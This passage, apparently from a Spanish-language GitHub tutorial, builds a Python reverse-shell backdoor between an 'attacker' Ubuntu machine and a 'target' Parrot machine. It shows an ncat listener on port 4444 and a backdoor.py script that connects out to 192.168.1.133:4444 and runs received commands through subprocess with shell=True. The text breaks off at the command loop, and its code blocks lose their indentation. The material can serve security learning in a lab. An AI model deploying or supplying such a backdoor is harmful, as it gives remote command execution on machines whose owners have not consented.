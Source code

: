 ```bash
datos_recibidos = connection.recv(1024) 

 
 

print(datos_recibidos) 

 
 

connection.close() 
```
![conexion establecida 1024](https://user-images.githubusercontent.com/97669969/157426135-5f81ed56-5ba2-44c6-9c45-1ab7afed6539.png)


# Ubuntu (Hacker) 


* Abrimos listener con ncat 
```bash
ncat -l -vv 4444 
```
![conexion establecida 10242](https://user-images.githubusercontent.com/97669969/157426495-4534160d-bc17-41cd-b5de-0eb300e9dbec.png)
* Conexion establecida.



# Parrot (Target) 

 # Mejoramos codigo,implementamos ejecution de comandos. 

 
# backdoor.py 

 
```bash
import socket 

import subprocess 

 
 

def ejecutar_comando(comando): 

return subprocess.check_output(comando,shell=True) 

 
 

connection = socket.socket(socket.AF_INET,socket.SOCK_STREAM) 

connection.connect(("192.168.1.133",4444)) 

connection.send("\n [+] Conexion establecida \n".encode()) 

 
 

while True: 

```